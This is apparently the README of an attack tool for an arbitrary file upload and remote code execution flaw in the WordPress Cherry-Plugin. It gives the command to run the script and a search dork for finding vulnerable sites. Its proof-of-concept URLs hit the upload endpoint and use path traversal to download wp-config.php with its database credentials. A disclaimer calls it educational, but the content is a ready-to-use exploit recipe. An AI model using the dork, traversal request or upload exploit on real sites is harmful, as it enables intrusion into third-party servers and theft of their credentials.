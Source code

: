 # WordPress (CMS) Cherry-Plugin Arbitrary File Upload RCE

Requirement :
- `Python 2.7.18`
- `pip 19.2.3`

How To Usage :
```
python2 sxc.py
```
Example Dork
```
inurl:/wp-content/plugins/cherry-plugin/
```
Proof of Concept
```
Upload: The following file was affected: https://www.example.com/wp-content/plugins/cherry-plugin/admin/import-export/upload.php

Download: https://example.com/wp-content/plugins/cherry-plugin/admin/import-export/download-content.php?file=../../../../../wp-config.php
```
Classification
  `Type : UPLOAD`
  `CWE : CWE-434`

**DISCLAIMER : THIS TOOLS IS FOR EDUCATIONAL PURPOSES ONLY. 
AND WE DO NOT CONDONE ANY ILLEGAL ACTIVITIES**
